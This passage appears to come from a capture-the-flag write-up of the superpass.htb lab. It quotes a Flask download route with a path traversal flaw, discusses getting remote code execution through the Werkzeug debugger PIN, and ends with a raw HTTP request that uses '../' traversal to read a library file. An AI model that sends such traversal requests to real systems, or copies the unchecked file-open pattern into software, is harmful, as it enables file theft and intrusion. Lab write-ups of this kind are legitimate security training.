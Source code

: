 ```


@blueprint.get('/download')
@login_required
def download():
    r = flask.request
    fn = r.args.get('fn')
    with open(f'/tmp/{fn}', 'rb') as f:
        data = f.read()
    resp = flask.make_response(data)
    resp.headers['Content-Disposition'] = 'attachment; filename=superpass_export.csv'
    resp.mimetype = 'text/csv'
    return resp
```

I went down a rabbit hole, thinking the secret above was for an exposed JWT signing key.  When backtracking, and attempting to download an invalid vault CSV file, I found the page is using the werkzeug debugger - see [Debugging Applications &#8212; Werkzeug Documentation (2.2.x)](https://werkzeug.palletsprojects.com/en/2.2.x/debug/).  This provides a *middleware that renders nice trace-backs, optionally with an interactive debug console to execute code in any frame*.

There is a [HackTricks werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) page with details on how to get console RCE.

I tried clicking on the stack trace, and it asks for a PIN -- so we enter our secret:

![](assets/2023-03-19-18-47-13-image.png)

This gives an `incorrect pin` error. Yep, I was being lazy and assuming an easy bypass..

HackTricks mentions you can reverse engineer the algorithm used to derive the PIN by looking at e.g. `/python3.5/site-packages/werkzeug/debug/__init__.py`

From our stack trace, we work out the correct path for werkzeug, and try the following LFI to read `/app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py`:

```
GET /download?fn=../../../app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJy9jk1qwzAQha8iZm2KJI9GGp-i-xLCSBrFBrcJlrMKuXsFvUNXj8f74XvBte3SV-2wfL3AnEPgW3uXm8IEn7tKV7Pfb2b7MefdSCkjNOe6dfMYnQ-4vKd_3l2mAX1oX2E5j6cOt1VYALlmx61pTjXGhOixVVtKSLFIFSGpDWeRHIkyBs3sQmCLwjIHKoTNBk7quQkl710pXplnDhibsiWuQVJUJ9Qo0eyrJLE4TmIKlmMZ-Ndn1-OPxjt4_wIcJ2t7.ZBaZAA.8XRrRgigTWhr28G4u9SW_oL8u4A;remember_token=21|375c7a4d26553e4e568b19ac19f945febe04f81248efe05bbcc6c522853c580393454491f9638fd8999ce58ac91e2919d49448ed7b9e3db167a61c9934a433ae
Upgrade-Insecure-Requests: 1
Referer: http://superpass.htb/vault/export
```
